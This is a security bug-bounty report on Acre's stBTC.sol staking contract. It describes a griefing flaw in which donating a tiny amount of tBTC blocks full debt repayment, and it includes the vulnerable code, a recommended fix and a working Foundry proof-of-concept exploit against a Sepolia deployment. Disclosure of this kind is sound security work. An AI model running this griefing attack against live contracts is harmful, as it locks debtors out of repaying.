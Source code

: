 # #34836 \[SC-Medium] Malicious party can make it impossible for debt to be completely repaid by donating a few tbtc to \`stBTC.sol\`

**Submitted on Aug 28th 2024 at 19:29:25 UTC by @Dliteofficial for** [**Audit Comp | Acre**](https://immunefi.com/audit-competition/boost-acre)

* **Report ID:** #34836
* **Report Type:** Smart Contract
* **Report severity:** Medium
* **Target:** https://sepolia.etherscan.io/address/0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3
* **Impacts:**
  * Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description

## Brief/Intro

## Vulnerability Details

\`stBTC.sol\` is Acre's staking contract that allows user to deposit threshold btc (tbtc) in exchange for stBTC. At the pleasure of the owner address, with due diligence I would assume, an address can be granted the permission to mint stBTC without depositing tbtc into the contract. According to the NatSpec in \`stBTC::totalAssets()\`, this mechanism can also be used to balance the conversion rate between tbtc and stBTC.

However, as obtainable in the codebase, the change in conversion rate, artificial or natural, is not accounted for when the debtor tries to repay the debt in \`stBTC::repayDebt()\`. An attacker can take advantage of this, donate to the contract, effectively increasing the conversion rate. This way, when the debtor decides to repay the debt owed, they will be unable to repay because the value of the shares borrowed converted to asset is higher than what was initially borrowed when the function is expecting the original asset value.

\`\`\`solidity function repayDebt( uint256 shares ) public whenNotPaused returns (uint256 assets) { assets = convertToAssets(shares);

```
    // Check the current debt of the debtor.
```

\>>> if (currentDebt\[msg.sender] < assets) { revert ExcessiveDebtRepayment( msg.sender, currentDebt\[msg.sender], assets ); }

```
    // Decrease the debt of the debtor.
```

\>>> currentDebt\[msg.sender] -= assets;

```
    emit DebtRepaid(msg.sender, currentDebt[msg.sender], assets, shares);

    // Decrease the total debt.
```

\>>> totalDebt -= assets;

```
    // Burn the shares from the debtor.
    super._burn(msg.sender, shares);

    return shares;
}
```

\`\`\`

## Impact Details

This is purely a griefing attack. This attack is quite cheap to execute (10 wei of tbtc as shown in the POC) but the impact is quite low. The attackers stands to gain nothing. At most, the conversion rate and total assets is inflated, and the debtor is unable to completely return the borrowed shares.

## Recommendation

The code works for partial repayment, however, for full repayment, the debtor's current debt should be set to zero and totalDebt should also be set to zero if the debtor's repayment is last for all the borrowed assets.

## References

## Proof of Concept

\`\`\` // SPDX-License-Identifier: UNLICENSED pragma solidity ^0.8.0;

import { stBTC } from "contracts/stBTC.sol"; import "forge-std/Test.sol"; import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract TDCDTest is Test{

```
stBTC stBTCContract;
address owner;
address debtor;
address attacker;
address tbtc &#x3D; 0x517f2982701695D4E52f1ECFBEf3ba31Df470161;

function setUp() public {
    //initialize the stBTCContract
    stBTCContract &#x3D; stBTC(0x7e184179b1F95A9ca398E6a16127f06b81Cb37a3);
    vm.label(address(stBTCContract), &quot;stBTC Contract&quot;);

    //initialize the attacker and victim addresses
    attacker &#x3D; makeAddr(&quot;Attacker&quot;);
    vm.label(attacker, &quot;Attacker&quot;);

    debtor &#x3D; makeAddr(&quot;Debtor&quot;);
    vm.label(debtor, &quot;Debtor&quot;);

    owner &#x3D; stBTCContract.owner();
    vm.label(owner, &quot;stBTC Contract Address&quot;);

    //token minting and approvals
    deal(tbtc, attacker, 1 ether);
}

function test__TotalDebtAndCurrentDebtDuringPayBack() public {
    //owner grants debtor address allowance to mint stBTC without any deposit
    vm.startPrank(owner);
    stBTCContract.updateDebtAllowance(debtor, 1 ether);
    assertEq(stBTCContract.allowedDebt(debtor), 1 ether);

    //debtor mints the stBTC
    changePrank(debtor);
    stBTCContract.mintDebt(1 ether, debtor);
    assertEq(stBTCContract.balanceOf(debtor), 1 ether);
    
    //Attacker donates 10 wei of tbtc into stBTC Contract
    uint totalAssetBefore &#x3D; stBTCContract.totalAssets();
    changePrank(attacker);
    IERC20(tbtc).transfer(address(stBTCContract), 10);
    assertGt(stBTCContract.totalAssets(), totalAssetBefore);
    assertEq(stBTCContract.totalAssets() - totalAssetBefore, 10);

    //due to the donation, debtor is unable to completely pay back the debt
    changePrank(debtor);
    //we anticipate the code reverting
    vm.expectRevert(abi.encodeWithSelector(stBTC.ExcessiveDebtRepayment.selector, debtor, 1 ether, stBTCContract.convertToAssets(1 ether)));
    stBTCContract.repayDebt(1 ether);
}
```

} \`\`\`

Run this in your console:

\`\`\` forge test --match-contract DonationAttackTest --fork-url \<FORK-URL> --fork-block-number 6237648 -vv \`\`\`
